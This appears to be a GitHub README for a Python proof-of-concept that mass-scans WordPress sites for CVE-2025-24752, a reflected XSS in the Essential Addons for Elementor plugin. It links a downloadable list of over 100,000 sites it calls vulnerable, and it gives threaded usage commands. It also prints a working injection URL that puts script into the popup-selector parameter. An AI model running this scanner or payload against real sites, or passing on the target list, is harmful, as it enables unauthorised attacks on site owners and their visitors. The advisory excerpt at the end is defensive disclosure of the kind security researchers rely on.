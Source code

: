 Please do not harm sites, FIX it ASAP
targets vulnerable 100K+ probably affecting for XSS https://nt.ls/AkTE9 (can download by one click all vulnerable)

##### Requirement to run poc.py, Install -

```pip install selenium webdriver-manager```

##### Usage 
```python poc.py targets.txt 10```

```10 = amount of threads, i think 5 are default, depends on your RAM```

![image](https://github.com/user-attachments/assets/4167280d-787d-45cd-81eb-4a5c25368885)

#### manual POC elementor XSS 2025
 ==> ```https://target.com/?popup-selector=<img_src=x_onerror=alert("chirag")>&eael-lostpassword=1```

 
![image](https://github.com/user-attachments/assets/50d75f05-1392-4acf-9889-525e54ca5128)


Note: My script works slow, but it can 1000% confirm XSS bug unlike nuclei or httpx. I tried all the things, version below 6.0.15 are affected.

#### Information & reference 
https://patchstack.com/articles/reflected-xss-patched-in-essential-addons-for-elementor-affecting-2-million-sites/
The Essential Addons for Elementor plugin suffered from a reflected cross-site scripting (XSS) vulnerability. The vulnerability occurred due to insufficient validation and sanitizing of the popup-selector query argument, allowing for a malicious value to be reflected back at the user. The vulnerability is fixed in version 6.0.15 and has been tracked with CVE-2025-24752.
